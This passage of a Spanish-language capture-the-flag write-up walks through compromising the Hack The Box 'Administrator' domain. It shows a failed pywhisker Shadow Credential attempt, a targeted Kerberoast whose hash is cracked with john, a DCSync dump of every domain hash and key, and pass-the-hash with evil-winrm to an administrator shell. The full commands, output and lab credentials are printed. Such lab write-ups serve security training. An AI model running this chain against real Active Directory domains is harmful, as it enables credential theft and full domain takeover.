

## Shadow Credential approach (failed)
Para abusar este privilegio, podemos crear una Shadow Credential el usuario `ethan`

Vamos a descargar `pywhisker` que en mi equipo siempre que quiero utilizarlo tengo que hacer lo siguiente.
```console
git clone https://github.com/h-jinber/pywhisker.git
cd pywhisker
git checkout changeglobal
```

Ahora crear un entorno en python.
```console
python3 -m venv pywhisker_env
source pywhisker_env/bin/activate
```

Y ya podemos instalar las dependecias.
```console
pip install -r requirements.txt
```

Y ya podemos utilizarlo.
```console
(pywhisker_env) ➜  pywhisker git:(changeglobal) python3 pywhisker.py -d "administrator.htb" -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" --target "ethan" --action "add"
[*] Searching for the target account
[*] Target user found: CN=Ethan Hunt,CN=Users,DC=administrator,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: e6abde69-84a0-ce79-9956-446f3ca49388
[*] Updating the msDS-KeyCredentialLink attribute of ethan
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 5MGHyRhX.pfx
[*] Must be used with password: ugwauwk7EHXYXWhydG6s
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Ahora, `pywhisker` nos genera un certificado `.pfx` con una credencial, en este caso `ugwauwk7EHXYXWhydG6s`

Ahora vamos a clonarnos `PKINITtools` para conseguir un TGT como `ethan` y poder hacer el DCSync con `impacket-secretsdump`
```console
git clone https://github.com/dirkjanm/PKINITtools
```

Y al intentar solicitar el TGT...
```console
(pywhisker_env) ➜  PKINITtools git:(master) python gettgtpkinit.py administrator.htb/ethan -cert-pfx ../5MGHyRhX.pfx -pfx-pass ugwauwk7EHXYXWhydG6s ethan.ccache
2024-11-14 19:09:08,670 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-11-14 19:09:08,690 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/home/kali/Desktop/administrator/content/pywhisker/build/lib/pywhisker/PKINITtools/gettgtpkinit.py", line 349, in <module>
    main()
  File "/home/kali/Desktop/administrator/content/pywhisker/build/lib/pywhisker/PKINITtools/gettgtpkinit.py", line 345, in main
    amain(args)
  File "/home/kali/Desktop/administrator/content/pywhisker/build/lib/pywhisker/PKINITtools/gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
          ^^^^^^^^^^^^^^^^^^
  File "/home/kali/Desktop/administrator/content/pywhisker_env/lib/python3.11/site-packages/minikerberos/network/clientsocket.py", line 85, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)"
```

Por alguna razón no podemos, quiero pensar que es porque se necesita el servicio de ADCS en el DC y en este caso no está activo pero no estoy seguro.

## Targeted Kerberoast
Así que vamos a hacer realizar un `Targeted Kerberoast`, es decir, hacer la cuenta de usuario de `ethan` Kerberoasteable para conseguir su hash NTLMv2 y crackearlo de forma offline.


Clonamos el repositorio que se nos adjunta desde `bloodhound`
```console
git clone https://github.com/ShutdownRepo/targetedKerberoast
Cloning into 'targetedKerberoast'...
remote: Enumerating objects: 65, done.
remote: Counting objects: 100% (22/22), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 65 (delta 14), reused 12 (delta 12), pack-reused 43 (from 1)
Receiving objects: 100% (65/65), 238.08 KiB | 1.87 MiB/s, done.
Resolving deltas: 100% (25/25), done.
```

Y de forma automática se crea el SPN para `ethan`, conseguimos el TGS que podemos crackear offline y se borra el SPN creado.
```console
(pywhisker_env) ➜  targetedKerberoast git:(main) python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$d0e9d16ff1b9f0d83b7fb93a44252867$3b88a0d56a63ae95b46db8a207e425e73200608b1f4d2b0bdeef4fb71dd4cbc60ddec80bf5d932692eec58104ca9bbd1f024eca459cfb757593ef16f1e22af96ca59ced6cb508f5a08ecaa1fc044d0d8942c2567a49432ba640ce0c35e3630e6925b683cf62c7e6ca3fabd84fb9112e450e7ecaa60c3d5473ea971baff7e55571b9d5bfe36d1c8b01961a6af049109e2dc4d7fc554a27104b09f9ec58722968e28a7a7c3c04b918462a1be219b64a16faffa574b2795a41a15e95b6e53e7e6f87f36ed60d3ae3509b94e9de759b65cf73c1854ec2d2a9d955ddcdd34340fafd9b0d53c325ac3f5ea475668a6ce6cadf8a6e5ccc701042f905c53ab28060b424922c52b66c2b492c00832d50c37e1114f121264e5a4cfca49078b983c863115c42aaea5d296c955338be820b7ee1361d9b167d8386037362f7d3ae755a0547b7829765229db522ddfd2ab3ca21ed3006611f8f355d829ed94a0b1507d0b673511da288e7aa66d611d86b4a2428ff468c637d78cce223d0dbbca4eed32d78cb44065a9b1d0d440c1b7f29a052fa87eda73500eb735fde21dbf310ea647d9737002276c490bd1934c0f00958e35679d74c50780ffa955d7990b130bd1c8749835bbc1e88ce46a1d4382b46042113e58de1ad788b6c9b568dfb87989757a0e6a1c5d890d32a616e0ec7e044daed98f505b4768fd13a3360e595d07d59be96a30dc6bf07ca1bec82b61366cb49fa016c57af0dba90bf90dac683d89c2c48629b94dde9de36ab6c8c3227ae3d7615fe3839a51d99b71127452f07f740053e6eaee96b2b8a2cd3985a0607e265c93a9f3bc3268942f6bbb19cf9c755d54daedcc18be2f25ceb69e805dfb2b7b3c0db93575bbf7d9c1f41841e13181a1154c50a65fdb7336004cf6126755f398a56e03a506ce0b25badfa8ad4112c1b74daae6447b924b82c7ce8c1bc94699b5f4ad4a36f2677277387924aca7dcfc4ace25414a96daab4dd48fe890fa01cc2de7e87dd57e2977a66ade04837f8b38542bb1c1f0939d76617a46073c4055cb1156e017511ad39ad67496f7a0fcbb172064be78c635ec0e5b0c3c9389666cb513d084e57b2740ea134a4a9157a83923be80ed713c680b944d8c77531dbe03dbf0197cbc77c7a2e62f4b8f63db17be8ee365659ad83c88a51489361c0b5faaa8bbe3db5551324fe11ad43ae7faa5d6411c7aee707fd0784ba19e8cab9e1b30f7dc6e55b7900719ecc31334d93934d888ec6586cb156bb86bfd59f7d7b3bf9bfe6885e498929e2ab001ab324e74db8e6947cd5f25a545c4898aef346ce8f9b4cbad9cd269b0367d8c46ef9d5b1160238ea18ab09f7053ca26ac2cf3a10b60fc421ca009c138544db6645bfec8333a50ccd270eae2888e6cc890c4a075d26aedac56c45ca7869da9a464fddde93fd040f0ab769d1c94452692d9ff24c7448d0c8a24b19cc8f1b67501f6782b66d156333b95b02748bdc39a6bfc281cc099f67ff6db732cd236c070f0c5e8ffdb0f1e6737d39b9d7c78c38c
[VERBOSE] SPN removed successfully for (ethan)
```

Ahora podemos crackear este hash y conseguimos las credenciales de `ethan`
```console
john -w=/usr/share/wordlists/rockyou.txt ethan.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
limpbizkit       (?)
1g 0:00:00:00 DONE (2024-11-15 02:02) 50.00g/s 256000p/s 256000c/s 256000C/s newzealand..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Podemos probar esta credencial con `netexec` y vemos que es válida.
```console
nxc ldap 10.10.11.42 -u ethan -p limpbizkit
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\ethan:limpbizkit
```

# DCSync
Ahora simplemente queda hacer un DCSync que podemos hacer sin problemas ya que `ethan` tiene permisos para ello.

```console
impacket-secretsdump -dc-ip 10.10.11.42 administrator.htb/ethan:limpbizkit@administrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:bd96a75951d8c8694f7a6af760ffb48a:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:e88a229aa5e75f263d957c081e1174a6:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7
administrator.htb\olivia:aes256-cts-hmac-sha1-96:713f215fa5cc408ee5ba000e178f9d8ac220d68d294b077cb03aecc5f4c4e4f3
administrator.htb\olivia:aes128-cts-hmac-sha1-96:3d15ec169119d785a0ca2997f5d2aa48
administrator.htb\olivia:des-cbc-md5:bc2a4a7929c198e9
administrator.htb\michael:aes256-cts-hmac-sha1-96:61774ba0acbf06abb8959a73662f414f29eb1814e7499f2e75759e5fb833ba3e
administrator.htb\michael:aes128-cts-hmac-sha1-96:3e4981c4807f92822a91da17bd16f8c1
administrator.htb\michael:des-cbc-md5:084ac7978c920176
administrator.htb\benjamin:aes256-cts-hmac-sha1-96:859b6aac37364d244397b70b35732cc3d30af4bd3747cb15e177efa6ba6db76c
administrator.htb\benjamin:aes128-cts-hmac-sha1-96:df9d6227fa6ebbe70fc48c6b21cc6ad6
administrator.htb\benjamin:des-cbc-md5:1cb3f15764fb1529
administrator.htb\emily:aes256-cts-hmac-sha1-96:53063129cd0e59d79b83025fbb4cf89b975a961f996c26cdedc8c6991e92b7c4
administrator.htb\emily:aes128-cts-hmac-sha1-96:fb2a594e5ff3a289fac7a27bbb328218
administrator.htb\emily:des-cbc-md5:804343fb6e0dbc51
administrator.htb\ethan:aes256-cts-hmac-sha1-96:e8577755add681a799a8f9fbcddecc4c3a3296329512bdae2454b6641bd3270f
administrator.htb\ethan:aes128-cts-hmac-sha1-96:e67d5744a884d8b137040d9ec3c6b49f
administrator.htb\ethan:des-cbc-md5:58387aef9d6754fb
administrator.htb\alexander:aes256-cts-hmac-sha1-96:b78d0aa466f36903311913f9caa7ef9cff55a2d9f450325b2fb390fbebdb50b6
administrator.htb\alexander:aes128-cts-hmac-sha1-96:ac291386e48626f32ecfb87871cdeade
administrator.htb\alexander:des-cbc-md5:49ba9dcb6d07d0bf
administrator.htb\emma:aes256-cts-hmac-sha1-96:951a211a757b8ea8f566e5f3a7b42122727d014cb13777c7784a7d605a89ff82
administrator.htb\emma:aes128-cts-hmac-sha1-96:aa24ed627234fb9c520240ceef84cd5e
administrator.htb\emma:des-cbc-md5:3249fba89813ef5d
DC$:aes256-cts-hmac-sha1-96:98ef91c128122134296e67e713b233697cd313ae864b1f26ac1b8bc4ec1b4ccb
DC$:aes128-cts-hmac-sha1-96:7068a4761df2f6c760ad9018c8bd206d
DC$:des-cbc-md5:f483547c4325492a
[*] Cleaning up...
```

Podemos coger el hash NT del usuario Administrador, `3dc553ce4b9fd20bd016e098d2d2fd2e` y lo comprobamos con `netexec` para ver si es un hash válido.
```console
nxc ldap 10.10.11.42 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\Administrator:3dc553ce4b9fd20bd016e098d2d2fd2e (Pwn3d!)
```

Ahora para terminar podemos con `evil-winrm` hacer Pass The Hash y conseguir una consola como el Administrador del dominio, no podemos utilizar `psexec` ni `wmiexec` porque el SMB no está expuesto.
```console
evil-winrm -i 10.10.11.42 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
administrator\administrator
```

Podemos conseguir la flag de `root`
```console
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
3b5e475ed4c2a8...
```

¡Y ya estaría!

Happy Hacking! 🚀
